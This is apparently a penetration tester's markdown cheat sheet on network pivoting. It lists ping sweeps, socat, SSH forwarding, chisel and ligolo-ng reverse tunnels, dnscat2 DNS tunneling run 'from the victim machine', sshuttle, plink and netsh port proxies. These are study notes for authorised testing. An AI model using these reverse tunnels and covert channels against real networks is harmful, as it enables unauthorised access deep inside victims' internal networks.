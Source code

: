 # 🚢 Port Redirection and Tunneling

## Ping Sweep

```shell
# linux
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

# windows cmd
for /L %i in (1,1,254) do @ping -n 1 -w 100 192.168.1.%i | find "Reply"
# windows ps
1..254 | % {"172.16.6.$($_): $(Test-Connection -count 1 -comp 172.16.6.$($_) -quiet)"}
```

## Port Redirection

### Socat

```shell
socat TCP-LISTEN:<local_port>,fork TCP:<ip>:<port>
```

## Port Forwarding

### SSH Local Port Forwarding

```shell
# forwards local machine port 8080 to a remote machine's port 80
ssh -L 8080:<remote_host>:80 user@ssh_server
```

### SSH Remote Port Forwarding

```shell
# forwards a remote machine's port 80 to the local machine's port 9090
ssh -R 127.0.0.1:9090:<target>:80 user@kali_machine
```

### Chisel

```shell
# create server 
chisel server --port 8080 --reverse

# create client on remote machine
chisel client <local_host>:8080 R:<local_port>:localhost:<remote_port>
```

## Tunneling

### Ligolo

> <https://github.com/nicocha30/ligolo-ng/releases>

```shell
# create ligolo interface
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

# start the proxy on attacker machine
./li-proxy -selfcert -laddr 0.0.0.0:443

# upload the agent to the target machine and start it
./li-agent -connect <attacker_ip>:443 -ignore-cert
agent.exe -connect <attacker_ip>:443 -ignore-cert

# the connection will be displayed in the proxy
session # choose the session
ifconfig # show subnets of the agent
# add the subnet to the routing table
sudo ip route add <subnet> dev ligolo
# back in ligolo, start it
start
```

### Chisel

```shell
# create server 
chisel server --port 8080 --reverse --socks5

# create client on remote machine
chisel client <local_host>:8080 R:socks

# add the port asigned by chisel to /etc/proxychains.conf
# use proxychains to interact with the internal network 
sudo proxychains <command>

# create a client and add an extra port forwarding (useful to access a web page from browser)
./chisel client <local_host>:8080 R:socks R:4545:172.16.80.240:80
```

### SSH Dynamic Port Forwarding

```shell
# creates a dynamic tunnel between local host and target
ssh -D 9050 user@10.4.213.215

# add port to /etc/proxychains4.conf
socks5 127.0.0.1 9050

# use proxychains to interact with the internal network 
sudo proxychains <command>
```

### DNS Tunneling

```shell
dnscat2-server feline.corp

# from the victim machine
dnscat feline.corp

# from the server
windows -i <id>
? for help
```

### Sshuttle

```shell
# creates a VPN-like tunnel between networks
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```

## Windows Tools

### ssh.exe

```shell
# creates a dynamic reverse tunnel between current host and attack host
ssh -N -R 9998 kali@192.168.45.171

# configure proxychains in /etc/proxychains4.conf
socks5 127.0.0.1 9998

# using proxychains to interact with 
sudo proxychains <command> <ip>
```

### Plink

```shell
# creates an SSH tunnel from a local port to a remote service
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```

### Netsh

```shell
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

# show active interfaces
netsh interface portproxy show all
```
